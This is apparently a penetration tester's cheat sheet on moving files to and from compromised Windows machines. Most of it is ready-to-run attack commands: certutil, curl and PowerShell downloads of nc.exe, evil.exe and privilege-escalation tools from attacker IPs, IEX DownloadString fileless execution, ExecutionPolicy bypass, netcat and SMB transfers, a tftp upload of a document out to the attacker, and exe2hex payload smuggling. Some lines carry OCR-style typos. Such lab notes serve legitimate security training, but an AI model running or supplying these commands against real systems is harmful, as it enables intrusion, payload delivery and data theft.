 ```yaml
---
title: Windows_File_Transfer
permalink: /Windows/File_Transfer
---
```



## First, test ##
```curl http://10.10.16.7:1234/nc.exe -o nc.exe```` 

```powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')```

```certutil.exe -urlcache -split -f http://10.10.16.4/winPEASany_ofs.exe```

```python3 /usr/share/doc/python3-impacket/examples/smbserver.py share ./```
```cp \\10.10.16.6\Share\winPEASany_ofs.exe```

With last method, password can be requested. Then ,go

```net use x: \\10.10.14.3\sifo /user:sifo sifopassword```
```sudo /opt/impacket/examples/smbserver.py sifo . -smb2support -username sifo -password sifopassword```

## Execute a file directly ##
```echo IEX(Nex-Object Net.WebClient).DownloadString("http://10.10.16.6:8000/PowerUp.ps1") | powershell -noprofile -```

# #For older versions like Windows XP and Windows Server 2003, use tftp
```kali@kali:~$ sudo apt update && sudo apt install atftp kali@kali:~$ sudo mkdir /tftp```  
```kali@kali:~$ sudo chown nobody: /tftp```  
```kali@kali:~$ sudo atftpd --daemon --port 69 /tftp```

```C:\Users\Offsec> tftp -i $kali_ip put important.docx```

## File transfer
```C:\Users\offsec> nc -nlvp 4444 > incoming.exe```
```nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe```


## Trickier ways ##

https://github.com/LOLBAS-Project/LOLBAS

#base64 powershell
https://gist.github.com/tothi/ab288fb523a4b32b51a53e542d40fe58

#Non-Interactive FTP Download
kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
kali@kali:~$ sudo systemctl restart pure-ftpd

C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo lab>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt
C:\Users\offsec> ftp -v -n -s:ftp.txt
ftp> open 192.168.1.31 21
ftp> USER offsec
ftp> bin
ftp> GET nc.exe ftp> bye
C:\Users\offsec> nc.exe -h

#Windows Downloads Using Scripting Languages

echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget. vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs echo Next >> wget.vbs
echo ts.Close >> wget.vbs

C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe

#Same with powershell
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1

C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro file -File wget.ps1

#same as oneliner
C:\Users\Offsec> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')

#Windows Downloads with exe2hex and PowerShell
kali@kali:~$ upx -9 nc.exe #reduce the size of an exe
kali@kali:~$ exe2hex -x nc.exe -p nc.cmd #convert it to windows script
#then copy and paste script onto windows machine

C:\Users\offsec>powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$ h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte ]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1}; set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;

